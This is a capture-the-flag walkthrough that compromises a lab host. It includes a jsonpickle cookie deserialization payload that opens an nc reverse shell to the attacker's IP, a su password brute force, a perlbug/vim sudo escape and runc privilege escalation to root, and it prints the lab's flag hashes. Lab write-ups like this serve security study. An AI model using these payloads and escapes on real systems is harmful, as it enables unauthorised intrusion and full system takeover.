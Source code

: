 ### ***Target: 10.0.0.30***

## ***NMAP***

    # nmap -sS -T4 -p- 10.0.0.30

    22/tcp   open  ssh                                                                                        
    80/tcp   open  http                                                                                       
    5000/tcp open  upnp

## ***UPnP | PORT 5000***

Base64 decoding the cookie.

    {"py/object": "__main__.User", "username": "Rick"}

Going to ***http://10.0.0.30/whoami*** and changing the serialized cookie username to a different string we get a different output.

{"py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": [{"py/tuple": ["nc", "10.0.0.27", "4444", "-e", "/bin/bash"]}]}]}

### ***/home/morty/.important***

    -***You are completely crazy Morty to keep a password that easy! Change it before you get hacked!***-
    Rick

I searched for linux brute force su command and found this github repository ***https://github.com/carlospolop/su-bruteforce***.

www-data@rick:/tmp/exploit$ ./suBF.sh -u morty -w ./top12000.txt
./suBF.sh -u morty -w ./top12000.txt
  [+] Bruteforcing morty...
  You can login as morty using password: internet

    $ sudo -ll
    Matching Defaults entries for morty on rick:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User morty may run the following commands on rick:

    Sudoers entry:
        RunAsUsers: rick
        Options: !authenticate
        Commands:
            /usr/bin/perlbug

Running the command as rick and opening the vim editor we are able to get a shell as the user 'rick'.

    $ sudo -u rick perlbug

    :!/bin/bash

### ***/home/rick/user.txt***
    a52d68b19ebca39c7b821ab1a51fef2e  -

    $ sudo -ll
    Matching Defaults entries for rick on rick:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User rick may run the following commands on rick:

    Sudoers entry:
        RunAsUsers: ALL
        RunAsGroups: ALL
        Options: !authenticate
        Commands:
            /usr/sbin/runc

Following the steps found on ***https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation*** and running runc with sudo we are able to get a shell as the root user.

    # id -a
    uid=0(root) gid=0(root) groups=0(root)


### ***/root/root.txt*** 
    256fdda9b4e714bf9f38a92750debf70  -
